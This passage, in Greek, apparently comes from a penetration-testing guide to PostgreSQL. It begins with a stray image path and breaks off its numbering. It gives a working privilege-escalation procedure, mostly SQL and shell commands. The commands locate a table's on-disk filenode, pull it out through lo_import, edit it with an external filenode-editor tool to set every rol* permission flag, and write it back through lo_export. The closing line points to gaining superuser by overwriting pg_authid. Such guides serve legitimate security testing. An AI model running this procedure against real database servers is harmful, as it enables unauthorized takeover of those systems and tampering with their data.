 2. Αποκτήστε μια σχετική διαδρομή προς τον κόμβο αρχείου, που σχετίζεται με τον στόχο πίνακα
```sql
SELECT pg_relation_filepath('{TABLE_NAME}')
```
Αυτό το ερώτημα θα πρέπει να επιστρέψει κάτι σαν `base/3/1337`. Η πλήρης διαδρομή στο δίσκο θα είναι `$DATA_DIRECTORY/base/3/1337`, δηλαδή `/var/lib/postgresql/13/main/base/3/1337`.

3. Λήψη του κόμβου αρχείου μέσω των λειτουργιών `lo_*`
```sql
SELECT lo_import('{PSQL_DATA_DIRECTORY}/{RELATION_FILEPATH}',13337)
```
4. Λάβετε τον τύπο δεδομένων, που σχετίζεται με τον στόχο πίνακα
```sql
SELECT
STRING_AGG(
CONCAT_WS(
',',
attname,
typname,
attlen,
attalign
),
';'
)
FROM pg_attribute
JOIN pg_type
ON pg_attribute.atttypid = pg_type.oid
JOIN pg_class
ON pg_attribute.attrelid = pg_class.oid
WHERE pg_class.relname = '{TABLE_NAME}';
```
5. Χρησιμοποιήστε το [PostgreSQL Filenode Editor](https://github.com/adeadfed/postgresql-filenode-editor) για να [επεξεργαστείτε τον κόμβο αρχείου](https://adeadfed.com/posts/updating-postgresql-data-without-update/#updating-custom-table-users); ορίστε όλες τις λογικές σημαίες `rol*` σε 1 για πλήρεις άδειες.
```bash
python3 postgresql_filenode_editor.py -f {FILENODE} --datatype-csv {DATATYPE_CSV_FROM_STEP_4} -m update -p 0 -i ITEM_ID --csv-data {CSV_DATA}
```
![Επίδειξη PostgreSQL Filenode Editor](https://raw.githubusercontent.com/adeadfed/postgresql-filenode-editor/main/demo/demo_datatype.gif)
7. Επαναφορτώστε τον επεξεργασμένο κόμβο αρχείου μέσω των λειτουργιών `lo_*`, και αντικαταστήστε το αρχικό αρχείο στο δίσκο
```sql
SELECT lo_from_bytea(13338,decode('{BASE64_ENCODED_EDITED_FILENODE}','base64'))
SELECT lo_export(13338,'{PSQL_DATA_DIRECTORY}/{RELATION_FILEPATH}')
```
8. *(Προαιρετικά)* Καθαρίστε τη μνήμη cache του πίνακα εκτελώντας ένα δαπανηρό ερώτημα SQL
```sql
SELECT lo_from_bytea(133337, (SELECT REPEAT('a', 128*1024*1024))::bytea)
```
9. Θα πρέπει τώρα να δείτε ενημερωμένες τιμές πίνακα στο PostgreSQL.

Μπορείτε επίσης να γίνετε υπερδιαχειριστής επεξεργάζοντας τον πίνακα `pg_authid`. **Δείτε [την ακόλουθη ενότητα](pentesting-postgresql.md#privesc-by-overwriting-internal-postgresql-tables)**.
